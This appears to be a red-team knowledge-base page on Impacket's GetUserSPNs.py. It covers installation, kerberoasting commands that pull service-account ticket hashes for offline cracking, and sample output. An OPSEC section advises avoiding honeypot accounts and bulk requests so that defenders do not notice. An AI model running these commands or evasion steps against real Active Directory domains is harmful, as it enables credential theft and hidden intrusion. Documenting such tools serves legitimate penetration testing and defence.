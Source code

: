 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
  - ⚔️Tool
  - T1558003
primary categories:
  - "[[Red Team]]"
  - "[[Penetration Test]]"
secondary categories:
  - "[[Active Directory]]"
  - "[[Credential Harvesting]]"
  - "[[Kerberoasting]]"
  - "[[Post-Exploitation]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***

## Overview

`GetUserSPNs.py`[^1] is a tool from the Impacket Python module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^2][^3]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is sufficiently weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On Kali Linux[^4], you can install the `impacket-scripts`[^5] package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using Hashcat[^6] or John the Ripper[^7].

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^8]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a Microsoft SQL Server[^9] service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^10]. Instead, identify individual accounts vulnerable to kerberoasting using BloodHound[^11] or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

```ad-todo
Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.
```

## Under-the-Hood

```ad-todo
Reverse engineer `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.
```

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***

## Resources

| Hyperlink                                                                                               | Info                                   |
| ------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| [GetUserSPNs.py, Fortra](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)        | GitHub repository for `GetUserSPNs.pu` |
| [Steal or Forge Kerberos Tickets: Kerberoasting, MITRE](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting" |

[^1]: GetUserSPNs.py, Fortra, https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
[^2]: Attacking Microsoft Kerberos Kicking the Guard Dog of Hades, Tim Medin, https://youtu.be/PUyhlN-E5MU
[^3]: Kerberoasting Revisited, Will Schroeder, https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^4]: Kali Linux, Offsec, https://www.kali.org/
[^5]: impacket-scripts, Kali Linux, https://www.kali.org/tools/impacket-scripts/ 
[^6]: Hashcat, Hashcat, https://hashcat.net/hashcat/
[^7]: John the Ripper, Openwall, https://www.openwall.com/john/ 
[^8]: Detecting Kerberoasting Activity Part 2 – Creating a Kerberoast Service Account Honeypot, Sean Metcalf, https://adsecurity.org/?p=3513
[^9]: Microsoft SQL Server, Microsoft, https://www.microsoft.com/en-us/sql-server
[^10]: Windows Event ID 4769 Kerberos Service Ticket Request, Splunk, https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/
[^11]: BloodHound, SpecterOps, https://github.com/SpecterOps/BloodHound

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
